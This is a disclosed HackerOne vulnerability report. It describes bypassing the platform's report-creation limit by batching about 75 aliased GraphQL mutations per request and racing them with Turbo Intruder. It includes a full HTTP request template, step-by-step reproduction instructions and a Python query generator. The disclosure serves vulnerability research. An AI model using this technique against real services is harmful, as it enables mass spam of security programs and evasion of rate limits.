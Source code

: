 # Ability to bulk submit reports via query named based batching

## Report Details
- **Report ID**: 2166697
- **URL**: https://hackerone.com/reports/2166697
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-09-16T10:05:59.526Z
- **Disclosed**: 2024-06-19T06:38:15.294Z

## Reporter
- **Username**: 0x999
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
By taking advantage of query named based batching in graphql a malicious actor has the ability to create many reports in bulk(up to ~75+ reports in 1 request), in combination with turbo intruder this can be abused to create ~6400+ reports using ~100 requests in roughly 40 seconds which goes well above the intended limit which is 500 according to [this](https://hackerone.com/reports/2000000) report

**Description:**

### Steps To Reproduce

1. Paste the following request in BurpSuite - 
```
POST /graphql HTTP/2
Host: hackerone.com
Cookie: {your-h1-cookie)
Content-Length: 1173
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
X-Csrf-Token: {your-csrf-token}
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Content-Type: application/json
X-Product-Feature: inbox
Accept: */*
X-Product-Area: reports
Sec-Ch-Ua-Platform: "Linux"
Origin: https://hackerone.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

{
"operationname": "CreateReport",
"variables":{
"team_handle":"{target-team-handle}",
"product_area":"reports",
"product_feature":"inbox"
},
  "query": "{your-generated-query}"
}
```
2. Replace the Cookies, X-CSRF-Token with your own as well as the "{target-team-handle}"  with the team handle you wish to create the reports on
3. Use the python script that is included below to generate the query and replace {your-generated-query} in the request with the output
4. Send the request to Turbo Intruder
5. Use the ```race-single-packet-attack.py``` script
6. Modify the loop to 100 iterations and start the attack
7. Wait for the requests to go through 
8. Refresh H1 and you will see ~6400+ reports were created


### Supporting Material/References (Screenshots)

Video POC:
 * ██████████

Generate mutation query:
```python
def generate_query(index):
    return (
        'example' + str(index) + ': createReport(input: {team_handle: $team_handle, '
        'title: "Your Report Title", vulnerability_information: "Vulnerability Information", '
        'impact: "Impact Description", source: "Report Source"}) { '
        'was_successful errors { edges { node { id error_code field message __typename } __typename } '
        '__typename } }'
    )
queries = []
for i in range(75):
    queries.append(generate_query(i))
main_mutation = (
    'mutation BulkReports($team_handle: String!) {\n  ' +
    '\n  '.join(queries) +
    '\n}'
)
print(repr(main_mutation).replace('"','\\"').replace("'",""))

```

## Impact

By taking advantage of this bug a malicious actor is able to bypass the intended limitations that are applied to the report creation request allowing them to spam any program with a very large amount of reports.


## Attachments
No attachments
